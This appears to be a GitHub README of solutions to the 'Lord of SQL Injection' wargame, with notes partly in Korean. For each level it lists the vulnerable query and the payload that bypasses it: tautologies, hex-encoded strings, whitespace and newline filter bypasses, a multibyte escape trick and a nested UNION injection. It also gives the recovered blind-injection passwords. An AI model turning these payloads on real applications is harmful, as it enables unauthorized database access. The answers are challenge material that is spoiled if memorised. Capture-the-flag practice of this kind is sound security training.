 # Lord-of-Sql-injection

>gremlin
prob : select id from prob_gremlin where id='' and pw=''
solve : ?id=' or 1=1%23

>cobolt
prob : select id from prob_cobolt where id='' and pw=md5('')
solve : ?id=' or id='admin'%23


>goblin
prob : select id from prob_goblin where id='guest' and no=
solve : ?no=' or id=0x61646d696e


>orc(blind)
prob : select id from prob_orc where id='admin' and pw=''
solve : ?pw=095a9852

>wolfman
prob : select id from prob_wolfman where id='guest' and pw=''
solve : ?pw=%27||id=0x61646d696e%23

>darkelf
prob : select id from prob_darkelf where id='guest' and pw=''
solve : ?pw=%27||id=0x61646d696e%23

>orge(blind)
prob : select id from prob_orge where id='guest' and pw=''
solve : ?pw=7b751aec

>troll
prob : select id from prob_troll where id='ADmin'
solve : ?pw=AdMin

>vampire
prob : select id from prob_vampire where id=''
solve : ?id=adadminmin

>skeleton
prob : select id from prob_skeleton where id='guest' and pw='' and 1=0
solve : ?pw=' or id='admin'%23

>golem(blind)
prob : select id from prob_golem where id='guest' and pw=''
solve : ?pw=77d6290b

>darknight(blind)
prob : select id from prob_darkknight where id='guest' and pw='' and no=
solve : ?pw=0b70ea1f

>bugbear(blind)
prob : select id from prob_bugbear where id='guest' and pw='' and no=
solve : ?pw=52dc3991

>giant
prob : select 1234 from{$_GET[shit]}prob_giant where 1
solve : ?shit=%0b,?shit=%0c

>assasin 
prob : select id from prob_assassin where pw like ''
solve : ?pw=%E%D%
memo : a% , %a , %a%

>zombie_assassin
prob : select id from prob_zombie_assassin where id='' and pw=''
solve : pass
memo : %bf' or 1=1--%20 -> %20--1=1 ro '%bf

>succubus(pass)
>nightmare(pass)

>xavis(blind)
prob : select id from prob_xavis where id='admin' and pw=''
solve : ?pw=우왕굳
memo : 한글 ascii

>dragon
prob : select id from prob_dragon where id='guest'# and pw=''
solve : ?pw='%0aand pw=12311312312312 or id='admin
memo : %0a -> 줄바꿈  # -> 한줄 주석

>iron_golem(error based blind)
prob : select id from prob_iron_golem where id='admin' and pw=''
solve : ?pw=06b5a6c16e8830475f983cc3a825ee9a

>dark_eyes(error based blind)
prob : select id from prob_dark_eyes where id='admin' and pw=''
solve : ?pw=5a2f5d3c

>hell_fire(error based blind)
prob : select id,email,score from prob_hell_fire where 1 order by
solve : ?pw=admin_secure_email@emai1.com

>green_dragon
prob : select id,pw from prob_green_dragon where id='' and pw=''
solve : ?id=\&pw = union select 0x5c,(select 0x756e696f6e2073656c6563742030783631363436643639366523)%23
memo : query1=select id,pw from prob_green_dragon where id='\' and pw='union select 1,2#'
       query2=select id from prob_green_dragon where id='1' and pw='2',
       쿼터 필터링, 
       query1 : id=\&pw = union select 0x5c,(select 0x756e696f6e2073656c6563742030783631363436643639366523)%23 
       query2 : id = \ , pw = union select 0x61646d696e#
       0x5c
       0x756e696f6e2073656c6563742030783631363436643639366523   

>red_dragon(노가다)
prob : select id from prob_red_dragon where id='' and no=1
solve : 586482014
memo : id는 7자리까지, no는 is_numeric함수 사용, #과 개행문자로 우회

>blue_dragon(timed based)
prob : select id from prob_blue_dragon where id='' and pw=''
solve : d948b8a0
